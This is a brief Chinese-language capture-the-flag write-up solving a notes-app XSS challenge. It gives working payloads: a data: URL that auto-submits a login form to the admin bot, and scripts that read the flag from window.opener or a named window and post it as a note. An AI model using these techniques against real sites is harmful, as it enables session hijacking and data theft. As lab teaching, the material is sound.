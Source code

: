 有種 race condition 的感覺，表單送出之後立刻跳轉頁面，這時候因為新的登入還沒完成，所以跳過去時還是 admin 的 session，因此在新的視窗登入完成後就可以直接拿 `window.opener.document` 的東西。

如果有連網的話，就樣就完成了。在沒有對外連線的情況下，可以發現 admin bot 沒有檢查網址，所以可以傳 `javascript:` 或是 `data:` 之類的東西給它，回傳 flag 的部分可以直接用新增筆記的方式。

讓 admin bot 訪問底下這段，其實就只是用 `data:text/html` 載入 html 而已：

```
data:text/html,<form id=f method=POST action=http://0.0.0.0:8080/login target=new_window><input name=username value=user01><input name=password value=password></form><script>f.submit();location='http://0.0.0.0:8080/notes'</script>
```

XSS payload，這邊直接新開一個 window 去做就好，也可以用 iframe 來做

``` js
<script>
  setTimeout(() => {
    var flag = window.opener.document.body.innerText
    var win = window.open('/new');
    setTimeout(() => {
      win.document.querySelector('textarea[name=content]').value = flag;
      win.document.querySelector('form').submit()
    }, 2000)
  }, 2000)
</script>
```

### 另一種解法

運用我前幾天在 [iframe 與 window.open 黑魔法](https://blog.huli.tw/2022/04/07/iframe-and-window-open/)學到的招數，也就是「當開啟同名 window 時會拿到 reference，不會新開 window」，這樣兩個新開的 window 就可以互相溝通了。

``` html
<form id=form action="/login" target="_blank">
 <input name="username" value="user01">
 <input name="password" value="password">
</form>
<script>
  window.open('http://0.0.0.0:8080/notes', 'flag')
  form.submit()
</script>
```

XSS 的部份這樣寫：

``` html
<script>
  var flagWin = window.open('xxx:abdef', 'flag')
  setTimeout(() => {
    var flag = flagWin.document.body.innerText
    var win = window.open('/new');
    setTimeout(() => {
      win.document.querySelector('textarea[name=content]').value = flag;
      win.document.querySelector('form').submit()
    }, 2000)
  }, 2000)
</script>
```
